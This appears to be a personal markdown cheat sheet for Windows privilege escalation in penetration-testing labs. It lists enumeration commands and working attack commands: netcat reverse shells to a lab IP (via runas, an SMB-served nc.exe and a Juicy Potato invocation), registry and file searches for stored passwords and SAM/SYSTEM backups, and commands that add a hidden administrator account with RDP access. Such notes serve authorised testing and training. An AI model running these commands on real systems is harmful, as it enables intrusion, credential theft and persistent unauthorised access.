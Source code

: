 # Windows Privilege Escallation
- [ ] OS and Kernel information: `systeminfo`
- [ ] Current User: `whoami /all`
  - [ ] [NT AUTHORITY\LOCAL SERVICE](https://itm4n.github.io/localservice-privileges/?ref=benheater.com); This will enable `SeImpersonatePrivilege`.
- [ ] Local Users: `net users`
- [ ] Local Groups: `net localgroup`
  - [ ] `LAPS Reader`: `Get-ADComputer -Property *` -> `ms-Mcs-AdmPwd`; There is also a script called `laps.py`.
- [ ] Network interfaces: `ipconfig`
- [ ] Open Ports: `netstat -ano`
- [ ] `whoami /priv` ->
  - [ ] `SeImpersonatePrivilege`
    - [ ] [PrintSpoofer](https://github.com/itm4n/PrintSpoofer): SeImpersonatePrivilege + Microsoft Windows Server 2019 Standard = PrintSpoofer64.exe
  - [ ] `AlwaysInstallElevated`
  - [ ] `SeDebugPrivilege`
- [ ] Check installed softwares: `c:\Program Files (x86)`
- [ ] `winpeas.exe cmd`
- [ ] `tasklist`
- [ ] `netstat -ano`
```
#https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
- [ ] Check file permissions: `icacls "\path\to\file"`
- [ ] If you find credentials, then you can use `runas` method to make connection with netcat
```
runas /user:administrator "C:\users\viewer\desktop\nc.exe -e cmd.exe 192.168.49.57 443"
```
- [ ] Check Unqouted Path Service
```
#FIND SERVICE
wmic service get name,displayname,pathname,startmode |findstr /i "auto"

#CHANGE FILE WITH MSFVENOM PAYLOAD (DOWNLOAD WITH CERTUTIL)

#REBOOT
shutdown /r
```
- [ ] Look for passwords in registries
```
req query HKLM /f pass /t REG_SZ /s
```

---

# SeImpersonatePrivilege
- [GodPotato](https://github.com/BeichenDream/GodPotato)

---

- Check if there is a port that is open only internally (`netstat –nao`)
- Port forward if there is a new port internally and start checking it from zero
- Creating admin user which has RDP access

```
net user /add haji haji
net localgroup administrators haji /add
net localgroup "Remote Desktop Users" haji /add
```

# Shell Upgrade
```
#COPY NETCAT
cp /usr/share/windows-resources/binaries/nc.exe .

#SERVE IT VIA SMB
smbserver.py -smb2support -username evil -password evil evil $PWD

#START LISTENER ON ANOTHER PORT
nc -lnvp 80

#Execute nc.exe by using the UNC path.
net use z: \\192.168.49.57\evil /user:evil evil
Z:\nc.exe 192.168.49.57 80 -e cmd.exe
```

# Juicy Potato
We can use one of the BITS CSLIDs from here:
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
```
juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.49.85 443" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

## Binary Hijacking


## DLL Hijacking


---

```
My first commands I use when getting a Windows shell are below. Enumerate OS etc, check for JuicyPotato, common password locations and running netstat.

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
whoami /priv
netstat –nao
dir C:\Windows\System32\config\RegBack\SAM
dir C:\Windows\System32\config\RegBack\SYSTEM
```

# Sensitive Files
```
Get-ChildItem "C:\Users\*\AppData\Roaming\Microsoft\Windows\Recent\*" -Recurse -Force
Get-ChildItem "C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -Force
Get-ChildItem "C:\Users\*\AppData\Local\Temp\*" -Recurse -Force
Get-ChildItem "C:\`$Recycle.Bin\*" -Recurse -Force
```

--- 

# Useful Links
- https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
- https://github.com/0xsyr0/OSCP
- https://github.com/frizb/Windows-Privilege-Escalation
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- https://blog.certcube.com/powerup-cheatsheet/



